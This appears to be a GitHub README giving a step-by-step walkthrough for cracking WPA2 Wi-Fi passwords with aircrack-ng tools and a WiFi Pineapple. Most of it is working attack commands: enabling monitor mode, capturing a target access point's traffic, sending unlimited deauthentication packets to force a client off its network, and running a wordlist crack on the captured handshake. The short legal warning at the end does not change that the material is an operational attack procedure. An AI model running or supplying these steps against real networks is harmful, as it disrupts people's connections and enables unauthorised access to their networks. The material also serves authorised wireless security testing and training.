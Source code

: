 # Crack_WPA2-WiFi_Pineapple_CLI
Cracking WPA2 using Aircrack-ng through WiFi Pineapple MKVII CLI

### Pre-requirments :

- Aircrack-ng : `sudo apt install aircrack-ng`
- WiFi Pineapple MKVII (or any other WiFi Adapter. TIP:Whenever you’re choosing an external Wi-Fi adapter, make sure that it supports both 2.4Ghz and 5Ghz band.

My setup
![Setup](Images/Setup.jpg)

### Terminal-1
  1. Detect your wireless network interface
<pre lang="markdown">iwconfig</pre>
![Setup](Images/iwconfig.png)

  2. If interface not in monitor mode Run:
<pre lang="markdown">airmon-ng start &lt;interface&gt;</pre>
![Setup](Images/start_Interface.png)

  3. Capture traffic
<pre lang="markdown">airodump-ng &lt;interface&gt</pre>
![Setup](Images/airodump.png)


  4. To set WiFi Pineapple at 5GHz Run:     
<pre lang="markdown">airmon-ng &lt;interface&gt channel 48;</pre>
![Setup](Images/enable_5g.png)


  5. Capture traffic 5GHz band
     <pre lang="markdown">airodump-ng &lt;interface&gt --channel 48</pre>

### Terminal-2

  6. select target and focus on one AP on a specific channel:
<pre lang="markdown">airodump-ng -c &lt;channel&gt; -w &lt;filename&gt; -d &lt;AP_BSSID&gt; &lt;interface&gt;</pre>

### Example:

<pre lang="markdown">airodump-ng -c2 -w capture_wpa2 -d 00:11:22:33:44:55 wlan3mon</pre>

### Explanation:
- **`-c 2`** → Specifies the Wi-Fi channel (replace with your target AP’s channel).
- **`-w capture_wpa2`** → Defines the output filename (`capture_wpa2.cap`).
- **`-d 00:11:22:33:44:55`** → Filters by target AP’s BSSID.
- **`wlan3mon`** → Your network interface in monitor mode.

Once executed, the `.cap` file will be created, which can be used for further analysis.

  ![Setup](Images/airodump_target.png)

### Terminal-3
  7. Send deauthentication packets to the target
     
<pre lang="markdown">aireplay-ng --deauth 0 -a &lt;BSSID/AP's MAC&gt; -c &lt;Target/Station MAC&gt; &lt;interface&gt;</pre>

  ![Setup](Images/deauth.png)

As packets are sent, the number of captured frames from the target increases. This continues until the device eventually gets disconnected, allowing you to capture the WPA/WPA2 handshake.
  ![Setup](Images/deauth_attack_in_progress.png)


  8. Capture handshake : it will be shown in the monitor if captured ! at Terminal-2.
  ![Setup](Images/captured_files.png)

  9. Now you got the handshake(terminal-2)
  10. Stop the process at terminal-2:
      >ctrl+c

### 🔍 Checking WPA2 Handshake in Wireshark
Once the handshake is captured, follow these steps to verify it:

#### Open the Captured File
Run the following command to open the `.cap` file in Wireshark:

```bash
wireshark capture_wpa2-01.cap
```

#### Apply a Filter
In Wireshark’s **filter bar**, enter the following filter and press **Enter**:

```plaintext
eapol
```

This filters out only **EAPOL (Extensible Authentication Protocol over LAN) packets**.

#### Verify the 4-Way Handshake
Look for **four EAPOL messages** exchanged between the client (station) and the AP (router):

- **Message 1** → Sent by AP to the client.
- **Message 2** → Client replies.
- **Message 3** → AP sends another message.
- **Message 4** → Final response from the client.

#### Confirm Success

- ✅ If **all 4 messages** are captured, you've successfully grabbed the handshake! 🎉
- ❌ If you see only **2 or 3 messages**, the handshake is incomplete, and you may need to retry.

![Setup](Images/wireshark.png)

### 🔓 Cracking the WPA2 Handshake
Once you have successfully captured the WPA2 handshake, you can attempt to crack the password using `aircrack-ng`.

#### Run the Following Command
Use a wordlist to attempt the password crack:

```bash
aircrack-ng -w [wordlist.txt] -b [BSSID] capture_wpa2-01.cap
```

- `-w [wordlist.txt]`: Path to your dictionary file (e.g., `rockyou.txt`).
- `-b [BSSID]`: The target network’s MAC address.
- `capture_wpa2-01.cap`: The file containing the captured handshake.
![Setup](Images/aircrack_com.png)



#### Wait for the Results
If the password is in the wordlist, `aircrack-ng` will reveal it. If not, you may need a more extensive wordlist or other cracking techniques.

![Setup](Images/aircrack.png)

## ⚠ Legal Warning
This script should **only** be used on networks you own or have **explicit permission** to test. Unauthorized use is a violation of **cybercrime laws**.

---



